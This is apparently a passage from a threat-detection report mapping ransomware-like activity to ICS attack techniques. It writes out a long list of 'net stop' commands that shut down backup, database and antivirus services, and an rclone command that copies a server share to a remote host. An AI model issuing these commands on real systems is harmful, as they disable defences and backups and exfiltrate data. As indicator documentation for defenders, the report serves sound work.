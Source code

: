 - T0881 - Service Stop: Anomalous Command Issued Via Command-Line: net stop “Acronis VSS Provider” /y, net stop “Enterprise Client Service” /y, net stop “SQLsafe Backup Service” /y, net stop “SQLsafe Filter Service” /y, net stop “Veeam Backup Catalog Data Service” /y, net stop AcronisAgent /y, net stop AcrSch2Svc /y, net stop Antivirus /y, net stop ARSM /y, net stop BackupExecAgentAccelerator /y, net stop BackupExecAgentBrowser /y, net stop BackupExecDeviceMediaService /y, net stop BackupExecJobEngine /y, net stop BackupExecManagementService /y, net stop BackupExecRPCService /y, net stop BackupExecVSSProvider /y, net stop bedbg /y, net stop DCAgent /y, net stop EPSecurityService /y, net stop EPUpdateService /y, net stop EraserSvc11710 /y, net stop EsgShKernel /y, net stop FA_Scheduler /y, net stop IISAdmin /y, net stop IMAP4Svc /y, net stop McShield /y, net stop McTaskManager /y, net stop mfemms /y, net stop mfevtp /y, net stop MMS /y, net stop mozyprobackup /y, net stop MsDtsServer /y, net stop MsDtsServer100 /y, net stop MsDtsServer110 /y, net stop MSExchangeES /y, net stop MSExchangeIS /y, net stop MSExchangeMGMT /y, net stop MSExchangeMTA /y, net stop MSExchangeSA /y, net stop MSExchangeSRS /y, net stop MSOLAP$SQL_2008 /y, net stop MSOLAP$SYSTEM_BGC /y, net stop MSOLAP$TPS /y, net stop MSOLAP$TPSAMA /y, net stop MSSQL$BKUPEXEC /y, net stop MSSQL$ECWDB2 /y, net stop MSSQL$PRACTICEMGT /y, net stop MSSQL$PRACTTICEBGC /y, net stop MSSQL$PROFXENGAGEMENT /y, net stop MSSQL$SBSMONITORING /y, net stop MSSQL$SHAREPOINT /y, net stop MSSQL$SQL_2008 /y, net stop MSSQL$SYSTEM_BGC /y, net stop MSSQL$TPS /y, net stop MSSQL$TPSAMA /y, net stop MSSQL$VEEAMSQL2008R2 /y, net stop MSSQL$VEEAMSQL2012 /y, net stop MSSQLFDLauncher /y, net stop MSSQLFDLauncher$PROFXENGAGEMENT /y, net stop MSSQLFDLauncher$SBSMONITORING /y, net stop MSSQLFDLauncher$SHAREPOINT /y, net stop MSSQLFDLauncher$SQL_2008 /y, net stop MSSQLFDLauncher$SYSTEM_BGC /y, net stop MSSQLFDLauncher$TPS /y, net stop MSSQLFDLauncher$TPSAMA /y, net stop MSSQLSERVER /y, net stop MSSQLServerADHelper100 /y, net stop MSSQLServerOLAPService /y, net stop MySQL57 /y, net stop ntrtscan /y, net stop OracleClientCache80 /y, net stop PDVFSService /y, net stop POP3Svc /y, net stop ReportServer /y, net stop ReportServer$SQL_2008 /y, net stop ReportServer$SYSTEM_BGC /y, net stop ReportServer$TPS /y, net stop ReportServer$TPSAMA /y, net stop RESvc /y, net stop sacsvr /y, net stop SamSs /y, net stop SAVAdminService /y, net stop SAVService /y, net stop SDRSVC /y, net stop SepMasterService /y, net stop ShMonitor /y, net stop Smcinst /y, net stop SmcService /y, net stop SMTPSvc /y, net stop SQLAgent$BKUPEXEC /y, net stop SQLAgent$ECWDB2 /y, net stop SQLAgent$PRACTTICEBGC /y, net stop SQLAgent$PRACTTICEMGT /y, net stop SQLAgent$PROFXENGAGEMENT /y, net stop SQLAgent$SBSMONITORING /y, net stop SQLAgent$SHAREPOINT /y, net stop SQLAgent$SQL_2008 /y, net stop SQLAgent$SYSTEM_BGC /y, net stop SQLAgent$TPS /y, net stop SQLAgent$TPSAMA /y, net stop SQLAgent$VEEAMSQL2008R2 /y, net stop SQLAgent$VEEAMSQL2012 /y, net stop SQLBrowser /y, net stop SQLSafeOLRService /y, net stop SQLSERVERAGENT /y, net stop SQLTELEMETRY /y, net stop SQLTELEMETRY$ECWDB2 /y, net stop SQLWriter /y, net stop VeeamBackupSvc /y, net stop VeeamBrokerSvc /y, net stop VeeamCatalogSvc /y, net stop VeeamCloudSvc /y, net stop VeeamDeploymentService /y, net stop VeeamDeploySvc /y, net stop VeeamEnterpriseManagerSvc /y, net stop VeeamMountSvc /y, net stop VeeamNFSSvc /y, net stop VeeamRESTSvc /y, net stop VeeamTransportSvc /y, net stop W3Svc /y, net stop wbengine /y, net stop WRSVC /y, net stop MSSQL$VEEAMSQL2008R2 /y, net stop SQLAgent$VEEAMSQL2008R2 /y, net stop VeeamHvIntegrationSvc /y, net stop swi_update /y, net stop SQLAgent$CXDB /y, net stop SQLAgent$CITRIX_METAFRAME /y, net stop “SQL Backups” /y, net stop MSSQL$PROD /y, net stop “Zoolz 2 Service” /y, net stop MSSQLServerADHelper /y, net stop SQLAgent$PROD /y, net stop msftesql$PROD /y, net stop NetMsmqActivator /y, net stop EhttpSrv /y, net stop ekrn /y, net stop ESHASRV /y, net stop MSSQL$SOPHOS /y, net stop SQLAgent$SOPHOS /y, net stop AVP /y, net stop klnagent /y, net stop MSSQL$SQLEXPRESS /y, net stop SQLAgent$SQLEXPRESS /y, net stop wbengine /y, and net stop mfefire /y: Multiple net stop Commands Issued Via Command-Line with Different Arguments

- T0882 - Theft of Operational Information: Anomalous Command Issued Via Command-Line: rclone.exe copy “\\<Server 3>\<Folder path>” remote:<host name> -q –ignore-existing –auto-confirm –multi-thread-streams 12 –transfers 12 C:\Users\<domain admin>\.config\rclone\rclone.conf

- T0884 - Connection Proxy: Anomalous Execution of Executable on Local Host: regsvr32.exe

- T0885 - Commonly Used Port: Anomalous Execution of Executable on Local Host: rundll32.exe, regsvr32.exe, runonce.exe, services.exe, svchost.exe, wuauclt.exe, mstsc.exe, and dllhost.exe: Anomalous Execution of Multiple Executables on Local Host
